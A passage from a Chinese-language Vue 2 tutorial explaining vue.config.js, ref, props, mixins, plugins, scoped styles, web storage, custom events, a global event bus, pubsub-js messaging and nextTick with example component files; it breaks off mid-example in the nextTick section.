> vue采用**单独的文件修改配置**，其目的还是保护默认配置，如果你创建配置文件，vue就会采用默认配置。如果你创建了配置文件，vue就会用配置文件的内容覆盖对应的默认的配置内容。


```js
//修改src-main.js为src2-hello.js
//Commonjs的暴露方式
module.exports = {
  pages: {
    //如果配置了index,就必须配置一个内容，否则会覆盖原本index的内容为空
    index: {
      // page 的入口,
      entry: "src2/hello.js",
      // 模板来源
      template: "public/index.html",
      // 在 dist/index.html 的输出
      filename: "index.html",
      // 当使用 title 选项时，
      // template 中的 title 标签需要是 <title><%= htmlWebpackPlugin.options.title %></title>
      title: "Index Page",
      // 在这个页面中包含的块，默认情况下会包含
      // 提取出来的通用 chunk 和 vendor chunk。
      chunks: ["chunk-vendors", "chunk-common", "index"]
    }
    // 当使用只有入口的字符串格式时，
    // 模板会被推导为 `public/subpage.html`
    // 并且如果找不到的话，就回退到 `public/index.html`。
    // 输出文件名会被推导为 `subpage.html`。
    // subpage: "src/subpage/main.js"
  },

  //关闭语法检查的配置
  lintOnSave: false
};
```

`vue.config.js`文件中还有很多的配置，可以完全满足开发者个性化定制，不用全记住，需要时去官网查询即可。

全部的配置参考官网地址：https://cli.vuejs.org/zh/config/

### 14.5 ref属性

ref属性主要用于给元素或子组件注册引用信息(id的替代者)。

+ ref应用在**html标签**上就是获取**真实DOM元素**；
+ ref应用在**组件标签**上就是获取对应组件的实例对象。
+ 使用方式就是给标签打标识`ref='xxx'`,然后使用`this.$refs.xxx`获取。

```vue
<template>
  <div>
    <h1 v-text="msg" id="tt" ref="title"></h1>
    <button @click="showDOM" ref="btn">点击输出上方Dom元素</button>
    <School ref="sch" id="ss" />
  </div>
</template>

<script>
import School from "./components/School.vue";

export default {
  name: "App",
  components: { School },
  data() {
    return {
      msg: "欢迎学习Vue!"
    };
  },
  methods: {
    showDOM() {
      //获取DOM元素,使用原生方式获取，可以获取但不推荐
      console.log(document.getElementById("tt")); //<h1 id="tt">欢迎学习Vue!</h1>
      //使用ref属性获取DOM元素 this是APP组件实例对象
      console.log(this.$refs); //获取所有带有ref属性的元素 是个对象 {title: h1#tt, btn: button, sch: VueComponent}
      console.log(this.$refs.title); //<h1 id="tt">欢迎学习Vue!</h1>
      console.log(this.$refs.btn); //按钮元素
      console.log(this.$refs.sch); //School组件实例对象vc
      //传统的方式无法获取组件实例,它获取的是组件上一层的DOM元素，该组件id会出现在DOM元素上，这里的是div
      console.log(document.getElementById("ss")); //<div class='school' id='ss'><h1 id="tt">欢迎学习Vue!</h1> ... </div>
    }
  }
};
</script>
```

### 14.6 props配置项

配置项props其功能是让**组件接收外部传过来的数据**。其写法分为：

1. 传递数据

   `<Demo name='xxx' />`

2. 接收数据,有三种方式:

   1. `props:['name']`
   2. `props:{name:String}`
   3. `props:{name:{type:String，required:true}}`

> [!NOTE]
>
> props中的属性是**只读的**，Vue底层会监测对props的修改，如果进行了修改，就会发出警告。若是业务需要修改属性，就请**复制props的内容到data中一份**，然后修改data中的数据完成效果。

`App.vue`文件内容

```vue
<template>
  <div>
    <!-- 组件动态传递数据，实现组件复用数据动态 -->
    <Student name="李四" age="18" sex="男" />
    <!-- 使用v-bind可传递number类型的数据，也就是将默认传递的string变为表达式执行的结果-->
    <Student name="王五" :age="19" sex="男" />
    <Student name="aaa" />
    <!-- 不要传递vue已经使用的属性，例如key,ref等 -->
    <!-- <Student key="aaa" ref='bb'/> -->
  </div>
</template>

<script>
import Student from "./components/Student.vue";

export default {
  name: "App",
  components: { Student }
};
</script>
```

`Student.vue`文件内容

```vue
<template>
  <div class="student">
    <h1 v-text="msg"></h1>
    <h2>学生名称:{{ name }}</h2>
    <h2>学生性别:{{ sex }}</h2>
    <h2>学生年龄:{{ age }}</h2>
    <h2>学生年龄+1:{{ myAge + 1 }}</h2>
    <button @click="updateAge">修改年龄</button>
  </div>
</template>

<script>
export default {
  name: "Student",
  data() {
    console.log(this); //prop配置方式，会让vc实例上的_data属性上只有msg属性，其他的属性都在props属性中，数据代理依然有
    return {
      //msg是固定信息的属性
      msg: "一个学生信息",
      //不要与age同名，这样会起冲突，会先渲染props中的age，data中的age会被覆盖
      // age:this.age,
      myAge: this.age
    };
  },
  methods: {
    updateAge() {
      //修改传入的年龄属性,不建议直接修改，会报错，但修改效果依然生效
      // this.age = 33;
      //在data中添加修改data中的属性
      this.myAge++;
    }
  },
  //props配置可获取组件传递的属性，顺序可随意,其配置方式有三种
  //1. 数组方式,简单声明接收,phone是多余不使用的属性，默认值就是undefined，不会有错但有无用的属性
  props: ["name", "sex", "age", "phone"]
  //2. 对象方式，接收的同时限制获取数据类型
  // props: {
  //   name: String,
  //   age: Number,
  //   sex: String
  // }
  //3. 完整写法，required与default一般不同时配置
  // props: {
  //   name: {
  //     type: String, //name属性的类型是字符串
  //     required: true //name属性是必填的
  //   },
  //   age: {
  //     type: Number, //age属性的类型是Number类型
  //     default: 99 //age属性的默认值，不填时使用默认值
  //   },
  //   sex: String
  // }
};
</script>

<style>
.student {
  background-color: gray;
}
</style>
```

### 14.7 mixin 混入

**mixin混入**的意思是当多个组件需要**共用相同的配置**时，可将共同的配置提取到一个公共文件中。也可以说把公共配置提取成一个**混入对象**。

其使用步骤分为两步：

1. **定义混入**,里面的配置跟vm，vc实例中一样，例如：`{data(){...},methods{...}...}`；
2. **使用混入**有两种方式，a.**全局混入**：`Vue.mixin(xxx)`，b.**局部混入**：`mixins['xxx']`。

混合的配置文件`mixin.js`,本质就是提取组件的公共配置。可同时一个文件中配置多个混合对象。

```js
//文件名可随意，不一样非要mixin.js,aaa.js也行。
//使用的是分别暴露
export const hunhe = {
  methods: {
    //公共的方法
    showName() {
      alert(this.name);
    }
  },
  mounted() {
    console.log("mounted被使用");
  }
};

//可同时配置多个混合
export const hunhe2 = {
  data() {
    return {
      x: 100,
      y: 200
    };
  }
};
```

`Student.vue`文件

```vue
<template>
  <div>
    <h2 @click="showName">学生名称:{{ name }}</h2>
    <h2>学生性别:{{ sex }}</h2>
    <h2>x与y:{{ x }}----{{ y }}</h2>
  </div>
</template>

<script>
import { hunhe, hunhe2 } from "../mixin";
export default {
  name: "Student",
  data() {
    return {
      name: "张三",
      sex: "男",
      //如果出现相同配置，普通配置的内容会覆盖混合配置的内容
      x: 666
    };
  },
  //相同的方法，会覆盖混合的内容
  methods: {
    showName() {
      alert(this.name + "aaa");
    }
  },
  //生命周期函数出现相同配置比较特殊，混合不会覆盖，而是将所有内容整合
  //其中先执行混合的内容，然后再执行自己配置的
  mounted() {
    console.log("Student自己配置的mounted函数！！！");
  },
  //局部配置混合,其值必须使用数组
  mixins: [hunhe, hunhe2]
};
</script>
```

`School.vue`文件

```vue
<template>
  <div>
    <h2 @click="showName">学校名称:{{ name }}</h2>
    <h2>学校地址:{{ address }}</h2>
  </div>
</template>

<script>
//引入混合文件
import { hunhe, hunhe2 } from "../mixin";

export default {
  name: "School",
  data() {
    return {
      name: "北大",
      address: "北京"
    };
  },
  // methods: {
  //   showName() {
  //     alert(this.name);
  //   }
  // }
  //局部配置混合,其值必须使用数组
  mixins: [hunhe, hunhe2],
  mounted() {
    console.log("School自己配置的mounted函数！！！");
  }
};
</script>
```

上边的混入是局部混入，只有当前组件有用，可以在`main.js`**全局配置混入**，让所有组件vc和vm实例都使用混合配置。

```js
import Vue from "vue";
import App from "./App.vue";
//引入混合对象
import { hunhe, hunhe2 } from "./mixin";
Vue.config.productionTip = false;

//全局配置混合
Vue.mixin(hunhe);
Vue.mixin(hunhe2);
//实例化vm
new Vue({
  el: "#app",
  render: (h) => h(App)
});
```

### 14.8 插件

Vue中的插件本质是个对象，但对象中必须包含一个`install`方法。install方法可接收参数，第一个参数是**Vue构造函数**，后面的参数是用户使用插件时传入的。

使用插件可以合理合法的**增强vue的功能**，只要插件够强大，vue就能很容易的应用这些功能。

插件的使用步骤分为三步：

1. **定义插件**：`对象.install=function(Vue,options){ //添加全局过滤器 Vue.filter(...)...}`;
2. **使用插件**：`Vue.use(插件对象)`
3. **具体插件功能使用**，可以在任意组件中直接使用插件中定义好的功能。

插件文件`plugins.js`

```js
//文件名可随意定义不一定非要plugins.js
export default {
  //install方法可接收参数，第一个参数是Vue构造函数，后面的参数是用户使用插件时传入的
  install(Vue, a, b, c) {
    console.log("@@@插件调用", Vue, a, b, c);
    //有了Vue构造函数，构造函数上的配置以及原型都可获取
    //全局过滤器
    Vue.filter("mySlice", function (value) {
      return value.slice(0, 4);
    });

    //定义全局的指令
    Vue.directive("fbind", {
      bind(element, bingding) {
        element.value = bingding.value;
      },
      inserted(element, binding) {
        element.focus();
      },
      update(element, binding) {
        element.value = bingding.value;
      }
    });

    //混入
    Vue.mixin({
      data() {
        return {
          x: 100,
          y: 220
        };
      }
    });

    //原型上添加方法属性，vm，vc上都可获取
    Vue.prototype.hello = () => {
      alert("你好Vue");
    };
  }
};

```

插件的调用(使用)`main.js`

```js
import Vue from "vue";
import App from "./App.vue";
//引入插件
import plugins from "./plugins";
Vue.config.productionTip = false;

//使用(应用)插件,可同时引入多个插件并使用
Vue.use(plugins, 1, 2, 3);

//实例化vm
new Vue({
  el: "#app",
  render: (h) => h(App)
});
```

插件功能的使用`School.vue`

```vue
<template>
  <div>
    <!-- 使用全局过滤器 -->
    <h2>学校名称:{{ name | mySlice }}</h2>
    <h2>学校地址:{{ address }}</h2>
    <!-- 使用自定义指令 自动获取焦点 -->
    <input type="text" v-fbind:value="name" />
    <!-- 使用混入属性 -->
    <h2>x:{{ x }}</h2>
    <!-- 使用原型方法 -->
    <button @click="test">点击测试hello方法</button>
    <button @click="hello">点击测试hello方法</button>
  </div>
</template>

<script>
export default {
  name: "School",
  data() {
    return {
      name: "北大sssss",
      address: "北京"
    };
  },
  methods: {
    test() {
      this.hello();
    }
  }
};
</script>
```

### 14.9 scoped样式

默认Vue组件中的样式，最终都会被汇总到一起，也就是如果不同组件中出现同名的样式，就会出现类名冲突。后引入的组件会覆盖先引入的组件样式。scoped样式其作用就是让**样式在局部生效**，防止冲突。

`App.vue`中先**import**引入`Student.vue`后引入`School.vue`

> [!IMPORTANT]
>
> 脚手架在解析Vue文件的流程是：
>
> 1. 先**解析脚本**，读取`import`中引入的组件；
> 2. 然后解析`export default`中的配置内容；
> 3. 然后**解析样式**内容；
> 4. 最后**解析模板**内容。

```vue
<template>
  <div>
    <Student />
    <hr />
    <School />
  </div>
</template>

<script>
import Student from "./components/Student.vue";
import School from "./components/School.vue";

export default {
  name: "App",
  components: { Student, School }
};
</script>
```

`Student.vue`文件

```vue
<template>
  <div class="test font">
    <h2>学生名称:{{ name }}</h2>
    <h2>学生性别:{{ sex }}</h2>
  </div>
</template>

<script>
export default {
  name: "Student",
  data() {
    return {
      name: "张三",
      sex: "男"
    };
  }
};
</script>

<style>
    
.test {
  background-color: red;
}
.font {
  font-size: 20px;
  color: yellow;
}
</style>
```

`School.vue`文件

```vue
<template>
  <div class="demo font">
    <h2>学校名称:{{ name }}</h2>
    <h2>学校地址:{{ address }}</h2>
  </div>
</template>

<script>
export default {
  name: "School",
  data() {
    return {
      name: "北大",
      address: "北京"
    };
  }
};
</script>

<style>
.demo {
  background-color: blue;
}

.font {
  font-size: 30px;
  color: pink;
}
</style>
```

运行结果


要解决样式冲突，使用`scoped`属性就可完成。它的翻译就有作用域的意思。使用方式`<style scoped>`。给上述两个组件样式都添加该属性。


scoped可以限制样式只作用于当前组件，因此`App组件`不太适合使用。因为一般写在App中的样式都是需要其他组件共用的样式。使用了scoped就无法共用了。

除了`scoped`属性，style上还可以设置`lang`属性。

```npm
npm view webpack version //查看最新的webpack的版本号
npm view webpack versions  //查看所有webpack的版本号
```

查看webpack或者less-loader的版本号在`package-lock.json`中查询。

```npm
npm i less-loader@7  //表示安装less-loader 7版本中最新的版本
```

`App.vue`文件

```vue
<template>
  <div>
    <h1 class="aaa bbb">你好</h1>
    <Student />
    <hr />
    <School />
  </div>
</template>

<script>
import Student from "./components/Student.vue";
import School from "./components/School.vue";

export default {
  name: "App",
  components: { Student, School }
};
</script>

<style lang="less" scoped>
/* lang是用于设置样式文件格式， 默认就是css，如果设置为less，就需要安装解析less的包less-loader，
   为了防止webpack与less-loader版本冲突，如果使用的是webpack4就尽量安装7版本less-loader
   如果7版本还会出错，就尝试安装6版本*/
/* 很多组件都共用的样式 */
.title {
  color: aqua;
}
.aaa {
  color: orange;
  .bbb {
    font-size: 40px;
  }
}
</style>
```

### 14.10 浏览器本地存储

浏览器本地存储的知识不属于脚手架，而是js的知识。

浏览器的本地存储又叫`webStorage`分为`localStorage`和`sessionStorage`。一般存储内容大小一般支持5M左右，不同浏览器不一样。

`localStorage`和`sessionStorage`的使用方式基本一样。它们不同之处在于：`sessionStorage`关闭浏览器就会清空存储的数据，`localStorage`则不会，它必须调用删除api或者清除浏览器缓存时才会清空内容。

`localStorage.getItem("xxxx")`如果对应的value获取不到，就会返回null。`JSON.parse(null)`的结果依然是null。

案例：浏览器本地存储API使用

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>浏览器本地存储</title>
  </head>
  <body>
    <h2>localStorage</h2>
    <button onclick="saveData()">点击保存一个数据</button>
    <button onclick="readData()">点击读取一个数据</button>
    <button onclick="deleteData()">点击删除一个数据</button>
    <button onclick="deleteAllData()">点击清空数据</button>

    <hr />
    <h2>SessionStorage</h2>
    <button onclick="saveData2()">点击保存一个数据</button>
    <button onclick="readData2()">点击读取一个数据</button>
    <button onclick="deleteData2()">点击删除一个数据</button>
    <button onclick="deleteAllData2()">点击清空数据</button>

    <script>
      //localStorage
      function saveData() {
        //key与value都是字符串,如果value不是字符串，默认会调用toString方法进行转化
        window.localStorage.setItem("msg", "hello");
        localStorage.setItem("msg2", 666);
        let p = { name: "张三", age: 18 };
        localStorage.setItem("msg3", JSON.stringify(p));
      }

      function readData() {
        const msg = localStorage.getItem("msg");
        const msg2 = localStorage.getItem("msg2");
        const msg3 = localStorage.getItem("msg3");
        console.log(msg);
        console.log(msg2, typeof msg2);
        console.log(JSON.parse(msg3));
      }

      function deleteData() {
        const msg = localStorage.removeItem("msg");
        console.log(msg);
      }

      function deleteAllData() {
        const msg = localStorage.clear();
        console.log(msg);
      }

      //sessionStorage 使用方式跟localStorage一样
      function saveData2() {
        //key与value都是字符串,如果value不是字符串，默认会调用toString方法进行转化
        window.sessionStorage.setItem("msg", "hello");
        sessionStorage.setItem("msg2", 666);
        let p = { name: "张三", age: 18 };
        sessionStorage.setItem("msg3", JSON.stringify(p));
      }

      function readData2() {
        const msg = sessionStorage.getItem("msg");
        const msg2 = sessionStorage.getItem("msg2");
        const msg3 = sessionStorage.getItem("msg3");
        console.log(msg);
        console.log(msg2, typeof msg2);
        console.log(JSON.parse(msg3));
      }

      function deleteData2() {
        const msg = sessionStorage.removeItem("msg");
        console.log(msg);
      }

      function deleteAllData2() {
        const msg = sessionStorage.clear();
        console.log(msg);
      }
    </script>
  </body>
</html>
```

## 十五、组件间通信技术

### 15.1 组件自定义事件

之前使用的`click`、`change`、`keyup`等事件都是**内置的事件**。Vue脚手架还支持用户**自定义事件**。

内置事件大部分是给**html元素**使用的，自定义事件是给**组件**使用的。

**组件的自定义事件**是一种组件间的通信方式，适用于`子组件===>父组件`传递数据，其使用场景为：A是父组件，B是子组件，B想给A传数据，那么就要在A中给B绑定自定义事件(事件的回调在A中)。

**组件自定义事件绑定**有两种方式：

1. 直接在组件标签上使用`v-on`或`@`进行绑定，`<Demo @demo='test' />`或`<Demo v-on:demo='test' />`
2. 使用`ref`获取组件实例，再使用`$on`函数进行绑定,先配置`<Demo ref='demo' />` 然后写 `mounted(){this.$refs.xxx.$on('demo',this,test)}；`
3. 若只想让自定义组件只触发一次，可以使用`once修饰符`或`$once`方法

**触发自定义事件**：使用`$emit`方法实现，`this.$emit('demo'，数据)`。

**组件自定义事件解绑**有两种方式:1.使用`$off`函数实现解绑，2.`销毁vc`或`vm`实例实现解绑。

组件上若想绑定**原生的DOM事件**，需要使用`native`修饰符。

> [!NOTE]
>
> 通过`this.$refs.xxx.$on('demo',this,test)`绑定的自定义事件时，回调函数要么配置在`methods`中要么使用**箭头函数**，否则this的指向会出问题。

`main.js`文件，实现定时销毁vm,测试自定义事件解绑

```js
import Vue from "vue";
import App from "./App.vue";
Vue.config.productionTip = false;

//实例化vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  mounted() {
    setTimeout(() => {
      //3秒后vm实例自己自动销毁,vm销毁后,其下面的vc实例全部被销毁,所有自定义事件就失效了
      this.$destroy();
    }, 3000);
  }
});
```

`App.vue`文件

```vue
<template>
  <div class="app">
    <h1>{{ msg }}</h1>
    <h1>展示传入的学生姓名:{{ studentName }}</h1>
    <!-- 通过父组件给子组件传递函数类型的props实现：子给父传递数据 -->
    <School :getSchoolName="getSchoolName" />
    <!-- 由于v-on在Student组件标签上，所以是给Student组件实例vc上绑定了一个自定义事件demo，
    如果说有人触发了demo事件，就会去调用getStudentName回调函数 从而实现子给父传递数据-->
    <!-- 自定义事件的原则是给谁绑定事件，就是谁来触发事件 给谁绑定的事件，就找谁去解绑-->
    <!-- 绑定自定义事件方式1 -->
    <!-- <Student v-on:demo="getStudentName" @demo2="m1" /> -->
    <!-- 可使用事件的简写@并使用事件修饰符once表示事件只触发一次 -->
    <!-- <Student @demo.once="getStudentName" /> -->
    <!-- 对比上述两种子给父传递数据方法的区别：
    1. 使用props属性传递函数的方式实现，需要给子组件传递一个方法，然后让子组件亲自去调用
    2. 使用自定义组件的方式实现，是没有给子组件传递任何内容的，而只是在父组件中进行的事件与回调函数的绑定，然后在子组件中去触发事件，
    一旦子组件中事件触发就会自动调用绑定的回调函数-->

    <!-- 绑定自定义事件方式2 -->
    <!-- <Student ref="student" /> -->
    <!-- 组件使用内置事件,不能直接写事件名就行,因为组件会默认把事件看作名为click的自定义事件,需要使用修饰符.native.-->
    <!-- 有了.native修饰符，vue就会把click事件绑定到student组件最外层div上，这也是为什么不能组件写两个根元素的原因之一 -->
    <Student ref="student" @click.native="show" />
  </div>
</template>

<script>
import Student from "./components/Student.vue";
import School from "./components/School.vue";

export default {
  name: "App",
  components: { Student, School },
  data() {
    return {
      msg: "你好",
      studentName: ""
    };
  },
  methods: {
    getSchoolName(name) {
      console.log("App收到了(子组件)学校名:", name); //App收到了(子组件)学校名: 北大
    },
    getStudentName(name, ...args) {
      // args用于动态接收多个参数
      console.log("App收到了(子组件)学生名:", name, args); //App收到了(子组件)学生名:张三  [1, 3, 33]
      // vue中methods管理的函数this都指向当前App实例对象
      this.studentName = name;
    },
    m1() {
      console.log("demo2事件被触发");
    },
    show() {
      alert("组件绑定原生事件成功");
    }
  },
  mounted() {
    //this.$refs.student获得Student组件实例对象vc
    //a. 使用$on进行事件绑定,使用methods中配置的函数,防止this错误
    // this.$refs.student.$on("demo", this.getStudentName);
    //b. 绑定时,直接写回调函数,回调函数是普通函数
    // this.$refs.student.$on("demo", function (name, ...args) {
    //   console.log("App收到了(子组件)学生名:", name, args);
    //   console.log(this); //这里的this是student组件vc的实例并非是app组件的vc实例,因为触发事件的是student组件,因此this指向他
    //   this.studentName = name;
    // });
    //c. 绑定时,直接写回调函数,回调函数是箭头函数,可解决上边this的问题
    this.$refs.student.$on("demo", (name, ...args) => {
      console.log("App收到了(子组件)学生名:", name, args);
      console.log(this); //这里的this是student组件vc的实例并非是app组件的vc实例
      this.studentName = name;
    });
    //该方式灵活性更强，并且可以实现动态绑定，例如等待ajax请求执行完成绑定，或者延迟3秒进行绑定等
    setTimeout(() => {
      // this.$refs.student.$on("demo", this.getStudentName);
      //使用$once进行事件绑定，表示事件触发一次就不再触发
      // this.$refs.student.$once("demo", this.getStudentName);
    }, 3000);
  }
};
</script>

<style scoped>
.app {
  background-color: gray;
  padding: 5px;
}
</style>
```

`School.vue`文件,用之前的方式实现子给父组件传递数据效果

```vue
<template>
  <div class="school">
    <h2>学校名称:{{ name }}</h2>
    <h2>学校地址:{{ address }}</h2>
    <button @click="sendSchoolName">传递学校名给App</button>
  </div>
</template>

<script>
export default {
  name: "School",
  data() {
    return {
      name: "北大",
      address: "北京"
    };
  },
  //接收传递的函数
  props: ["getSchoolName"],
  methods: {
    sendSchoolName() {
      this.getSchoolName(this.name);
    }
  }
};
</script>

<style scoped>
.school {
  background-color: skyblue;
  padding: 5px;
}
</style>
```

`Student.vue`文件，使用自定义组件实现子给父组件传递数据效果

```vue
<template>
  <div class="student">
    <h2>学生名称:{{ name }}</h2>
    <h2>学生性别:{{ sex }}</h2>
    <h2>当前数字:{{ number }}</h2>
    <button @click="add">点击数字加1</button>
    <button @click="sendStudentName">传递学生名给App</button>
    <button @click="unbind">解绑demo事件</button>
    <!-- 销毁组件解除事件绑定 -->
    <button @click="death">销毁当前student组件的实例</button>
  </div>
</template>

<script>
export default {
  name: "Student",
  data() {
    return {
      name: "张三",
      sex: "男",
      number: 0
    };
  },
  methods: {
    add() {
      console.log("add被调用了");
      this.number++;
    },
    sendStudentName() {
      //this是vc实例,通过$emit函数触发事件,事件名是demo,可传递任意个参数
      this.$emit("demo", this.name, 1, 3, 33);
      // this.$emit("demo2");
      //触发名为click的自定义事件
      // this.$emit("click");
    },
    unbind() {
      //$emit函数实现事件解绑
      //1. 解绑一个自定义事件
      this.$off("demo");
      //2. 解绑多个自定义事件,使用数组包含多个自定义事件名
      // this.$off(["demo", "demo2"]);
      //3. 同时解绑所有自定义事件 不传参数就表示匹配所有
      // this.$off();
      //4. vm或者vc实例销毁时,会移除所有的wathcers监听,子组件以及事件监听器,其中事件监听器是自定义事件
    },
    death() {
      this.$destroy(); //销毁当前student组件的实例,销毁后所有student实例的自定义事件全都不奏效了
    }
  }
};
</script>

<style scoped>
.student {
  background-color: red;
  padding: 5px;
  margin-top: 30px;
}
</style>
```

### 15.2 全局事件总线(GlobalEventBus)

全局事件总线是一种组件间通信的方式，适用于**任意组件间通信**。

全局事件总线的核心原理，就是利用一个**所有组件都能访问到外部对象**，在它上边绑定自定义事件，这样绑定的组件就可以接收数据，非绑定的组件可触发事件**传递数据**。这个对象就是全局事件总线对象。本质还是利用**组件自定义事件**完成的。

该对象需要有**两个要求**才能完成上述功能：

1. 所有组件实例都能访问到，因此它必须在**Vue原型**上，**VueComponent原型**不行，因为`Vue.extend`得到的每个VueComponent都是新的独立的构造函数;Vue原型能行核心原因是`Vue.prototype===VueComponet.prototype.__proto__`。
2. 必须用于自定义事件的`绑定$on`，`解绑$off`，以及`触发$emit`等方法，因此该对象必须是vc或者vm实例。

使用步骤为：

1. **安装全局事件总线**：

   ```js
   new Vue({
     el: "#app",
     render: (h) => h(App),
     beforeCreate() {
       Vue.prototype.$bus = this; //安装全局事件总线，$bus是当前应用的vm，名称可以不是$bus，官方推荐这样写
     }
   });
   ```

2. **使用事件总线**:

   1. **接收数据**，A组件想接收数据，则在A组件中给`$bus`绑定自定义事件，**事件的回调留在A组件自身**；

      ```vue
      methods(){
        demo(data){....} //事件的回调函数
      }
      ....
      mounted(){
         this.$bus.$on('xxx',this.demo); //绑定自定义事件
      }
      ```

   2. **提供数据**，让想要传递数据的B组件调用$emit调用自定义事件。`this.$bus.$emit('xxx',数据)`。

最好在`beforeDestroy`函数中用`$off`去解绑当前组件所用的事件，因为如果不解除，`$bus`上就会一直占用该事件名。即使该组件实例被销毁了，`$bus`不被销毁也会继续占用，因此需要手动解绑。

`main.js`文件,App组件没有使用，内容就是单纯的展示School与Student组件，这里就忽略该文件的内容。

```js
import Vue from "vue";
import App from "./App.vue";
Vue.config.productionTip = false;

//可以绑定到window上让所有组件都能对象，能行但不推荐
// window.x = { a: 111, b: "bb" };
//Vue原型上放对象
// Vue.prototype.x = { a: 111, b: "bb" };
//让x对象拥有$on等方法，可以赋值vc实例对象

//1. 该写法可以实现功能，但不推荐这样写，有更标准的事件总线写法
const Demo = Vue.extend({}); //获得构造函数
const d = new Demo(); //获得vc实例
Vue.prototype.x = d;

//实例化vm
const vm = new Vue({
  el: "#app",
  render: (h) => h(App),
  //2. 标准事件总线写法，在所有数据加载前创建总线，写在其他地方是不行的
  beforeCreate() {
    Vue.prototype.$bus = this; //安装全局事件总线，$bus是当前应用的vm，名称可以不是$bus，官方推荐这样写
  }
});
//写法错误，这时vm已经做完所有工作，再赋值总线是会报错的
// Vue.prototype.$bus = vm;
```

`School.vue`文件

```vue
<template>
  <div class="school">
    <h2>学校名称:{{ name }}</h2>
    <h2>学校地址:{{ address }}</h2>
  </div>
</template>

<script>
export default {
  name: "School",
  data() {
    return {
      name: "北大",
      address: "北京"
    };
  },
  mounted() {
    // console.log("School", this.x); //组件可以访问原型上的对象
    //绑定自定义事件，实现了兄弟间传递数据
    this.x.$on("hello", (data) => {
      console.log("School组件收到了数据", data);
    });

    this.$bus.$on("hello2", (data) => {
      console.log("School组件通过bus收到了数据", data);
    });
  },
  //销毁前最好解绑事件，防止$bus被永久占用
  beforeDestroy() {
    this.$bus.$off("hello2");
  }
};
</script>

<style scoped>
.school {
  background-color: skyblue;
  padding: 5px;
}
</style>
```

`Student.vue`文件

```vue
<template>
  <div class="student">
    <h2>学生名称:{{ name }}</h2>
    <h2>学生性别:{{ sex }}</h2>
    <button @click="sendStudentName">传递学生名</button>
  </div>
</template>

<script>
export default {
  name: "Student",
  data() {
    return {
      name: "张三",
      sex: "男"
    };
  },
  methods: {
    sendStudentName() {
      //触发事件,传递数据
      this.x.$emit("hello", this.name);
      //触发
      this.$bus.$emit("hello2", this.name);
    }
  }
};
</script>

<style scoped>
.student {
  background-color: red;
  padding: 5px;
  margin-top: 30px;
}
</style>
```

### 15.3 消息的订阅与发布

消息的订阅与发布也是一种组件间通信的方式，适用于**任意组件间通信**。

消息的订阅与发布：1.订阅消息：提供消息名，2.发布消息：消息的内容；**需要数据的人订阅消息，提供数据的人发布消息**。

可以类比生活中报纸的订阅与发布：1.订阅报纸：提供地址，2.邮递员送报纸：报纸。

原生js没法轻松实现订阅与发布，可安装第三方库实现。`pubsub.js`包能实现消息的订阅与发布。pub是publish发布的简写，sub是subcribe订阅的简写，有这个包就可以在任何框架中实现消息的订阅与发布。

其使用步骤如下：

1. 安装指令：`npm i pubsub-js`；

2. 引入包：`import pubsub from 'pubsub-js'；`

3. 接收数据，A组件想要接收数据，则在A中**订阅消息**，订阅的回调函数写在A组件自身；

   ```js
   methods(){
     demo(data){.....}； //回调函数demo methodds中是防止this指向出问题
   }
   ...
   mounted(){
       this.pid=pubsub.subscribe('xxx',this.demo);//订阅消息
   }
   ```

4. 最好在`beforeDestroy`中，用`pubsub.unsubscribe(pid)`去**取消订阅**。

5. 提供数据，`pubsub.subscribe('xxx',this.demo)`;**发布消息**

`Student.vue`文件

```vue
<template>
  <div class="student">
    <h2>学生名称:{{ name }}</h2>
    <h2>学生性别:{{ sex }}</h2>
    <button @click="sendStudentName">传递学生名</button>
  </div>
</template>

<script>
import pubsub from "pubsub-js";

export default {
  name: "Student",
  data() {
    return {
      name: "张三",
      sex: "男"
    };
  },
  methods: {
    sendStudentName() {
      //触发
      // this.$bus.$emit("hello", this.name);
      //发布消息
      pubsub.publish("hello", this.name);
    }
  }
};
</script>

<style scoped>
.student {
  background-color: red;
  padding: 5px;
  margin-top: 30px;
}
</style>
```

`School.vue`文件

```vue
<template>
  <div class="school">
    <h2>学校名称:{{ name }}</h2>
    <h2>学校地址:{{ address }}</h2>
  </div>
</template>

<script>
//引入pubsub 它是一个对象
import pubsub from "pubsub-js";

export default {
  name: "School",
  data() {
    return {
      name: "北大",
      address: "北京"
    };
  },
  mounted() {
    //事件总线实现
    // this.$bus.$on("hello", (data) => {
    //   console.log("School组件通过bus收到了数据", data);
    // });
    //订阅消息,回调函数有两个参数，第一个是消息名，后面才是传递的data
    this.pubId = pubsub.subscribe("hello", (msgName, data) => {
      console.log("有人发布的hello消息，hello的回调执行了", msgName, data);
      console.log(this); //如果使用普通函数 this是undefined 因此还是要使用箭头函数
    });
  },
  //销毁前最好解绑事件，防止$bus被永久占用
  beforeDestroy() {
    // this.$bus.$off("hello");
    //取消消息订阅,需要使用id进行取消
    pubsub.unsubscribe(this.pubId);
  }
};
</script>

<style scoped>
.school {
  background-color: skyblue;
  padding: 5px;
}
</style>
```

通过对比可以发现，`pubsub-js`中消息订阅与发布其实跟vue中的**事件总线**实现方式基本一样。只是将`$bus`变成`pubsub-js`而已。

### 15.4 nextTick

`nextTick`的作用是在**下一次DOM更新结束**后执行其指定的回调。一般适用于当数据改变后，需要基于**更新后的新DOM**进行某些操作时，要在`nextTick`所指定的回调函数中执行。语法为`this.$nextTick(回调函数)`。

nextTick本质就是改变Vue操作的执行顺序。**nextTick也是一个生命周期函数**，因为它是vue在某个时刻自动帮我们调用的特殊回调函数。

```js
//1. input框默认是v-show=false隐藏状态的
<input type="text" v-show="todo.isEdit"  :value="todo.title" @blur="handleBlur(todo, $event)"
         ref="inputTitle"/>
       
//2. 触发handleEdit函数后，修改了isEdit后input框才显示
handleEdit(todo) {
   //todo.hasOwnProperty("isEdit")写法有些问题
   if (Object.hasOwnProperty.call(todo, "isEdit")) {
     //如果有isEdit属性,直接修改属性 hasOwnProperty就是判断是否拥有某个属性
     todo.isEdit = true;
   } else {
     // 因为原本没有isEdit属性，追加属性要有数据代理必须使用$set
     this.$set(todo, "isEdit", true);
   }
   //3.想要在页面渲染完成后就获取焦点，但直接写是不行的，
   // 因为vue的执行逻辑是先执行完函数中全部的代码再渲染,input框是隐藏状态的,因此这里的focus是无效的
   // this.$refs.inputTitle.focus();
   
   //4. 解决方式有两种 一是使用定时器,不设置时间都行，因为执行顺序变化了
   // setTimeout(() => {
   //   this.$refs.inputTitle.focus();
   // }
